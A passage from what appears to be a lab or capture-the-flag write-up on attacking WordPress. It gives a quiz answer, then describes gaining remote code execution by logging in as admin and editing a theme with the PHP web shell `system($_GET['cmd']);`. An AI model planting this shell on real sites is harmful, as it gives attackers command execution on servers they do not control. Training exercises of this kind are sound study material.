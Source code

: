 **Answer:** `lizard`

---
## Remote Code Execution (RCE) via the Theme Editor
### Question:
![](./attachments/Pasted%20image%2020220805131222.png)

*Hint: User home subdirectories are typically found in the same standard directory on Linux servers.*

Login as admin at `http://139.59.168.125:30734/wp-login.php`

Shell: `system($_GET['cmd']);`

![](./attachments/Pasted%20image%2020220805132621.png)

![](./attachments/Pasted%20image%2020220805133401.png)
